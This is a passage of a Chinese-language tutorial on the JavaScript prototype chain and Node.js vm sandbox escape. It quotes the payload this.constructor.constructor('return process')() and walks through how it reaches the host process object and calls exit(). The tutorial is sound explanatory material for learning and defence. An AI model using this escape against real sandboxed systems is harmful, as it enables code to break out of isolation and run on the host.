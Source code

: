 ```javascript
    constructor: ƒ doSomething(),
    __proto__: {
        constructor: ƒ Object(),
        hasOwnProperty: ƒ hasOwnProperty(),
        isPrototypeOf: ƒ isPrototypeOf(),
        propertyIsEnumerable: ƒ propertyIsEnumerable(),
        toLocaleString: ƒ toLocaleString(),
        toString: ƒ toString(),
        valueOf: ƒ valueOf()
    }
}
```

这告诉了我们什么`doSomeInstancing` 的 `__proto__` 同`doSomething.prototype`

因此当我们访问`doSomeInstancing` 中的一个属性，浏览器首先会查看`doSomeInstancing` 中是否存在这个属性。

如果 `doSomeInstancing` 不包含属性信息, 那么浏览器会在 `doSomeInstancing` 的 `__proto__` 中进行查找 如果属性在 `doSomeInstancing` 的 `__proto__` 中查找到，则返回它。

如果 `doSomeInstancing` 中 `__proto__` 不具有该属性，则检查`doSomeInstancing` 的 `__proto__` 的  `__proto__` 是否具有该属性。默认情况下，任何函数的原型属性 `__proto__` 都是 `window.Object.prototype.` 因此, 通过`doSomeInstancing` 的 `__proto__` 的  `__proto__` ( 也就是`Object.prototype`) 来查找要搜索的属性。如果再找不到

![](pic/4.png)

如上图所示，浏览器则会断言该属性不存在，并给出属性值为 `undefined` 的结论

## 沙盒逃逸

首先看下官方示例

```javascript
const vm = require("vm");

const ctx = {};

vm.runInNewContext('this.constructor.constructor("return process")().exit()',ctx);
console.log("Never gets executed.");
```

上述代码在执行时，程序在第二行就直接退出，vm虚拟机环境中的代码逃逸，获得了主线程的 process 变量，并调用 process.exit()，造成主程序非正常退出。

它等同于

```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
process.exit();
```
